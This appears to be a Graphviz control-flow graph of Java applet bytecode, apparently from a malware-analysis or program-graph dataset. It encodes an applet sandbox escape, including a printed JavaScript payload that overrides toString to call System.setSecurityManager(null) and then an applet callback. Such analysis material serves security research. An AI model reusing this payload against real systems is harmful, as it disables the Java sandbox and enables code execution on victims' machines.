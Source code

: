 digraph "" {
    "r0 := @this: rhcls"
    "load.r r0"
    "r0 := @this: rhcls"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r1"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"applet\""
    "load.r r1"->"push \"applet\"";
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"this.toString = function() {\tjava.lang.System.setSecurityManager(null);\tapplet.callBack();\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));};e = new Error();e.message = this;e\""
    "pop"->"push \"this.toString = function() {\tjava.lang.System.setSecurityManager(null);\tapplet.callBack();\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));};e = new Error();e.message = this;e\"";
    "push \"this.toString = function() {\tjava.lang.System.setSecurityManager(null);\tapplet.callBack();\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));};e = new Error();e.message = this;e\""->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <rhcls: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <rhcls: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <rhcls: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <rhcls: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
